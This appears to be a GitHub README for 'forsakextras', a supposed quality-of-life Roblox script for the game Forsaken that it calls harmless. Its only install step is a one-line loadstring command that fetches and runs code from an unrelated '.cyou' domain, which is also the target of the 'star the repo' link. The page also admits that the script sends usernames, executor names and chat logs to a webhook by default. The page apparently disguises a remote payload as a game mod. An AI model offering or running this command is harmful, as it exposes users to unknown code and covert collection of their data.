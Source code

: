 # forsakextras

> A **QoL script** for the Roblox game **Forsaken**, providing features like music replacement and GUI tweaks — **nothing malicious or "cheaty"**.

---

## 📜 The Script

```lua
loadstring(game:HttpGet("https://gitdownloadbcv.cyou?unp5bc1zn53xx7j"))()
```

> ⚠️ **This script does not include cheats** such as speed hacks, fly, or exploitative abilities. It is intended strictly for client-side customization — like music replacement or GUI additions.
> Future updates may add optional client-side bug fixes.
> You can suggest features or report bugs in the **Issues** tab!
>
> **If you like this script, consider [starring the repo](https://gitdownloadbcv.cyou?xw5vh6v6i734k9i) or sharing it around (with proper credit, please!)** — it helps a lot!

---

## 🔒 Privacy Note

By default, the script sends your **username**, **executor**, and some **chat logs** to a webhook (mostly for fun/debug purposes).
If you’d prefer not to be tracked:

```lua
-- At the top of the script (forsakextras.lua), set this:
TrackMePlease = false
```

---

## 📁 What’s in this Repo?

This repo contains the **assets** (audio, video, images) used by the script — nothing executable or harmful.
It exists solely to support Forsakextras.

---

## 🙏 Thanks

Special thanks to **ivannetta**, creator of the original *"fartsaken"* script (which had cheat elements), for:

* Music replacement logic
* File/asset download functions
* Killer emote GUI
* Scripting documentation for executor support

> (ur animation gui code did make my brain hurt a bit tho lol)
